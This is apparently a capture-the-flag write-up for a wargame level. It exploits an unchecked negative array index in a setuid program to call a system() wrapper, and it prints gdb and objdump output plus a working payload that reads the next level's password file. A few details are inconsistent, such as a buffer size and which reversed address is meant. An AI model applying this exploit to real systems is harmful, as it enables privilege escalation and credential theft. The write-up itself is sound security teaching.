 ## Level 3: validate user input and array boundaries

As usual,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's start by playing with the program to get an idea what it does:
```
level02@box:~$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
level02@box:~$ /levels/level03/level03 0 hello
Uppercased string: HELLO
level02@box:~$ /levels/level03/level03 2 hello
Capitalized string: Hello
level02@box:~$ /levels/level03/level03 3 hello
Length of string 'hello': 5
```

The program takes a string and runs some function on it depending on the index parameter.
How can we misuse this?

- Use a very long string
- Use an index higher than 3
- Use a negative index

You can try these or others yourself.
We get the most interesting result with a negative index:
```
level02@box:~$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls the `truncate_and_call` function with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

The function truncates the string to have at most 64 characters.
That's a good idea,
so even if we specified a very long string,
only the first 63 characters would be used.
Next, it takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

But what if the index is negative?
By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`.
But what is there?
The stack,
and understanding what is on the stack and how it works is the key in this challenge.

The stack is a memory region to store local variables,
function parameters, return values, among others.
The details depend on the CPU architecture,
but roughly the following happens when the `main` function calls `truncate_and_call`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions
2. The pointer to the next line of code in `main` is pushed on the stack
3. The function `truncate_and_call` is called
4. The local variable `buf` is pushed on the stack

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
0x0040+X+8      address of capitalize
0x0040+X+12     address of length
0x00??      content of index
0x00??      content of user_string
```

If index is 0, 1, 2, or 3,
the program will find the address of `to_upper`, `to_lower`, `capitalize`, and `length`, respectively,
and execute it.
Using a negative index,
the program will take whatever it finds there,
and try to execute it just like the others.

Now,
if the content of `buf` is stored before `fns`,
then we can put there the address of a function,
and use an appropriate negative index to make the program execute it.
But what function do we want to execute?
This unused function looks perfect:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it like a shell command.
Since we can control the value of the parameter,
we can make the program run whatever we want.

Of course we need to know the address of the `run` function.
We can find that using `objdump`:
```
level02@box:/levels/level03$ objdump -d level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```
The memory address of the `run` function is `0x0804879b`.

We still need to find the right negative index to use.
For that,
we need to figure out the gap in memory between `fns` and `buf`.
We can do that using `gdb`:
```
level02@box:/levels/level03$ gdb ./level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
(gdb) x/60xw $sp      
0xbfae3d3c: 0x080487fc  0xbfae3d6c  0xbfae4e4b  0x0000003f
0xbfae3d4c: 0xffffffff  0xbfae4e49  0xffffffff  0xbfae4e4b
0xbfae3d5c: 0xbfae3dd8  0x00000001  0x00000000  0x00000000
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

Explanation:

1. `gdb ./level03`: start the debugger and load the program in memory

2. `run -1 AAAAAAAA`: run the program with the specified parameters.
   We used a negative index to make the program crash.
   We used a string that will be easy to recognize in the memory.

3. `x/60xw $sp`: print the next 60 "words", starting from the beginning of the stack (`$sp` = address of the stack pointer)

The string `AAAAAAAA` is easy to spot:
notice the cluster of `41`s there in the middle,
as that is the ASCII code of the "A" character.

Now we know where `buf` starts.
But we also need to find out where `fns` starts,
so that we can calculate how many bytes we need to point back.
To figure this out,
remember that `fns` contains the addresses of functions,
starting with the address of `to_upper`.
We can find the address of `to_upper` like we did earlier for `run`:
```
level02@box:/levels/level03$ objdump -d level03 | grep to_upper | head -n1
08048624 <to_upper>:
```

Now we can find `0x08048624` in the memory dump we printed earlier,
and calculate the correct negative index until some position in `buf`.
However,
keep in mind that we need to use `buf` for more than one thing:

1. We want to put the address of the `run` method somewhere in it.

2. It should start with a suitable shell command,
   that will be executed by the `run` method,
   and should reveal the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
In this case the address is 80 bytes away from `fns`.
However,
instead of bytes, we have to count *4-byte* words.
This is because the size of a pointer is 4-bytes,
thus every index in `fns` translates to 4 bytes difference in memory addresses of elements.
As a result, the index we're looking for is `-80/4 = -20`:
```
level02@box:/levels/level03$ ./level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

Bingo!
Notice that we had to write the bytes of `0x08048624` in reverse order.
This is because in the OS of the live CD,
integers are represented with the least significant byte first.
Moreover,
the `;` is partly to make the beginning of the string a valid shell command,
and it also serves as a necessary padding,
making the distance between the jump address and `fns` a multiple of 4 bytes.

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example.

- Always check array boundaries.

- Remove unused, deprecated code, especially if it might be dangerous.
